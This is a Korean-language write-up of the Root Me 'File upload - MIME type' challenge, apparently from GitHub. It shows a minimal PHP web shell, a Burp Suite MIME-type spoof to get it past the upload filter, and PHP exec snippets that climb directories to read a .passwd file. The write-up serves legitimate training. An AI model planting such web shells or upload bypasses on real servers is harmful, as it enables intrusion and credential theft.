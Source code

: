 <!DOCTYPE html>
<html>
<head>
        <link rel="stylesheet" type="text/css" href="sytle.css">
</head>
<body>
        <h1>Root ME Web Hacking File upload - MIME type Write-Up</h1>
</body>
<br>
<br>
</html>

![10](https://github.com/user-attachments/assets/45e4e619-b038-43cc-bb0e-4246c523847a)

문제를 읽어보면 php파일을 업로드하고 패스워드는 .passwd 파일안에 있다고 한다.
문제 사이트로 접속해보자

![image](https://github.com/user-attachments/assets/f9a75397-f5b1-4580-827e-3c01df0314c0)


upload로 들어가니 사진을 업로드 할 수 페이지가 나온다

![image](https://github.com/user-attachments/assets/be4a6b3e-dd5f-4d06-a73f-2b3721f4d1e1)

![image](https://github.com/user-attachments/assets/9c285c9b-c103-40c1-85ef-5d4b48245955)

파일 업로드 취약점을 이용해 php 파일을 업로드 해보면 될 것 같다.

일단 간단하게 웹쉘을 만들어 보았다.

```python
<?php
  system($_GET[cmd]);
?>
```

그리고 burp suite를 사용 해서 MIME type을 image/png로 바꿔 주었다.

+MIME type이란?

클라이언트에게 전송된 문서의 다양성을 알려주기 위한 메커니즘

웹에서 파일의 확장자는 별 의미가 없다. 그러므로, 각 문서와 함께 올바른 MIME type을 전송하도록, 서버가 정확시 설정하는것이 중요하다.

브라우저들은 리소스를 내려받았을 때 해야 할 기본 동작이 무엇인지를 결정하기 위해 MIME type을 사용한다.

![1](https://github.com/user-attachments/assets/ab6b943e-fe1a-4720-b3a9-ce5549075acf)

![2](https://github.com/user-attachments/assets/ee1fa22b-3de7-42e8-9bab-949b63141dd4)

MIME type을 바꾸고 Forward하면 shell.php 파일이 업로드 된것을 확인할 수 있다.

![3](https://github.com/user-attachments/assets/6e3d0fc7-79a1-4f8d-a814-e860bdb3f9d3)

업로드된 파일에 들어가서 url에 cmd 명령어를 입력해 보았다.

![4](https://github.com/user-attachments/assets/a00ecac3-f513-4073-8148-cff3e27b3f5a)

![9](https://github.com/user-attachments/assets/f6e99fb9-4435-4c89-a602-79d7fb0e8a6c)

그러나 계속 sign in 하라고 창만 뜨고 cmd명령어가 실행되지 않는다. 

shell.php 코드를 바꿔가면서 cmd 명령어를 실행해보려고 시도해 봤으나 도저히 되지 않아 방법을 바꿔보기로 했다.

shell.php 코드를 아래 처럼 계속해서 상위디렉토리로 이동하도록 만들고 번거롭지만 계속 업로드해가며 .passwd파일을 찾아보았다.

```python
<?php
  echo exec('cd ..;cat .passwd');
?>
```

```python
<?php
  echo exec('cd ../..;cat .passwd');
?>
```

```python
<?php
  echo exec('cd ../../..;cat .passwd');
?>
```

최종적으로 상위 디렉토리로 세번 이동하고 나서야 .passwd 파일을 찾을 수 있었다.

![6](https://github.com/user-attachments/assets/636a1a21-6f1f-4d04-82fc-dcc3676d98a9)

플래그가 맞는지 확인하기 위해 root me 사이트에 넣어보니 well done이 나왔다!!

![7](https://github.com/user-attachments/assets/d6cd9ad9-044b-4a83-a5b1-4fc633e492d0)

